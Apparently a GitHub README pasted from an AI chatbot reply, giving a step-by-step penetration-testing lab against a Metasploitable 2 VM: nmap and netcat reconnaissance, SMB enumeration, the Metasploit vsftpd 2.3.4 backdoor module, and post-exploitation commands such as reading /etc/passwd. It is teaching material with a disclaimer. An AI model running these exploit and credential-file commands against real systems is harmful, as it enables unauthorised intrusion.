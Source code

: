 # 🛡️ A Detailed guide to setting up a safe and practical Real world penetration testing lab.

Absolutely! I can create a **detailed GitHub Markdown (`.md`) file** for a **Penetration Testing Lab**, step by step, including setup, commands, tools, and methodology. Here's a polished example you can directly use for your repository:

---

````markdown
# 🛡️ Real-World Penetration Testing Lab

<p align="center">
  <img src="https://img.shields.io/badge/Lab-Environment-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Tools-Kali%20Linux-green?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Target-Metasploitable-red?style=for-the-badge" />
</p>

---

## 🔹 Lab Overview

This lab is designed for **ethical hackers, penetration testers, and cybersecurity enthusiasts** to practice real-world penetration testing in a **safe and isolated network**.  

**Lab Components:**

| Machine | OS | IP Address | Role |
|---------|----|------------|------|
| Attacker | Kali Linux | 192.168.142.128 | Pentester machine |
| Target | Metasploitable 2 | 192.168.142.130 | Vulnerable machine for testing |

**Objective:**  
- Perform reconnaissance, scanning, enumeration, exploitation, and post-exploitation in a controlled environment.  

---

## 🔹 Lab Setup

### 1. Environment Requirements
- Virtualization software: **VirtualBox** or **VMware**
- Kali Linux ISO or VM image
- Metasploitable 2 VM
- Internal network setup for isolation
- Snapshots before starting tests

### 2. Network Configuration
1. Set both VMs to **Host-Only Adapter** or **Internal Network**.
2. Verify connectivity:
```bash
ping 192.168.142.130
````

---

## 🔹 Step-by-Step Penetration Testing

### Step 1: Reconnaissance

#### Passive Recon

* Gather information without directly interacting with the target.

```bash
whois 192.168.142.130
nslookup 192.168.142.130
```

#### Active Recon

* Use **nmap** for port scanning:

```bash
nmap -sS -Pn 192.168.142.130
```

* Scan all ports and services:

```bash
nmap -p- -A -T4 192.168.142.130
```

---

### Step 2: Enumeration

* Identify running services and versions:

```bash
nmap -sV -p 21,22,23,80,139,445,3306 192.168.142.130
```

* FTP banner grabbing:

```bash
nc 192.168.142.130 21
```

* SMB enumeration:

```bash
smbclient -L \\192.168.142.130 -U guest
```

---

### Step 3: Vulnerability Analysis

* Identify known vulnerabilities:

```bash
searchsploit vsftpd 2.3.4
```

* Check open ports for exploits using **Metasploit**:

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.142.130
run
```

---

### Step 4: Exploitation

* Exploit vulnerable services (FTP, SMB, Telnet):

```bash
exploit
```

* Gain shell access and check privileges:

```bash
whoami
id
```

---

### Step 5: Post-Exploitation

* Enumerate system information:

```bash
uname -a
cat /etc/passwd
ifconfig
```

* Check for privilege escalation opportunities:

```bash
sudo -l
```

---

### Step 6: Reporting

* Document findings:

  * Vulnerable services
  * Exploits used
  * Proof of concept screenshots
  * Suggested mitigation

**Template:**

| Vulnerability | Exploit Used  | Impact              | Mitigation                                   |
| ------------- | ------------- | ------------------- | -------------------------------------------- |
| FTP Backdoor  | vsftpd\_2.3.4 | Remote Shell Access | Upgrade FTP server / Disable anonymous login |

---

## 🔹 Recommended Tools

* Nmap / Zenmap
* Netcat
* Metasploit Framework
* Nikto / Dirb
* Wireshark
* Enum4linux / smbclient

---

## 🔹 References

* [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/)
* [Kali Linux Tools](https://www.kali.org/tools/)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

> ⚠️ **Disclaimer:**
> This lab is for educational purposes only. Do **NOT** perform penetration testing on networks or systems without explicit permission. Unauthorized testing is illegal and unethical.

```

Do you want me to do that?
```
